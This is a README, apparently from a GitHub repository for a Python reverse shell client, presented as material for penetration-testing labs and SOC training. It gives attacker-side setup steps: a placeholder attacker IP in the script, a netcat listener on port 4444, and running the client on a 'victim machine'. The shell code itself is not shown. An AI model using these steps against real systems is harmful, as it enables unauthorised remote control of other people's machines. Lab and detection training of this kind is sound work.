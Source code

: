 # Reverse-Shell-Client
Python-based reverse shell client script for controlled cybersecurity environments and ethical testing.


# 🐍 Python Reverse Shell Client

This is a Python-based reverse shell client designed for educational use in cybersecurity labs, penetration testing environments, and SOC training setups.

> ⚠️ **Disclaimer:** This code is meant strictly for educational and ethical use in authorized environments only.

## ⚙️ How It Works

- Connects to a remote host using IP & port
- Receives and executes shell commands
- Sends back output to the server

## 🚀 Usage

1. Set the attacker's IP in `VictomC2.py`:
   ```python
   attacker_ip = "YOUR.IP.HERE"
2. Start Listener
On the attacker's machine:

bash
Copy
Edit
nc -lvnp 4444
3. Launch Client
Run the script on the victim machine:

bash
Copy
Edit
python3 VictomC2.py
🎓 Learning Use Cases
💼 SOC Analyst training

🔍 SIEM-based detection (e.g., ELK Stack)

🧠 Understanding remote command execution

⚔️ Ethical hacking labs


